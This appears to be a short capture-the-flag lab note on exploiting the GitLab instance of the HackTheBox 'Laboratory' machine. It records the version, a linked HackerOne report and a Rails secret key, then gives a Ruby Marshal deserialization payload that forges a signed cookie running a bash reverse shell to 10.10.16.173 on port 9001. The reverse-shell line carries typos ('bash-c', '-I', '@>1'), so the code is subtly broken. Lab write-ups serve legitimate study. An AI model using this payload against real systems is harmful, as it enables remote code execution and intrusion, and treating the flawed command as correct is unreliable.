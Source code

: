 # gitlab.laboratory.htb

## Version

![[Pasted image 20210530145505.png]]

- Released February 2020

## Vuln

Link: [Vulnerability Write-Up](https://hackerone.com/reports/827052)

![[Pasted image 20210530145754.png]]

## Secret Key

3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3

## Deserialize Payload

```
request = ActionDispatch::Request.new(Rails.application.env\_config) 
request.env\["action\_dispatch.cookies\_serializer"\] = :marshal 
cookies = request.cookie\_jar 

erb \= ERB.new("<%= \`bash-c 'bash -I >& /dev/tcp/10.10.16.173/9001 @>1'\` %>") 
depr \= ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new) 
cookies.signed\[:cookie\] = depr 
puts cookies\[:cookie\]
```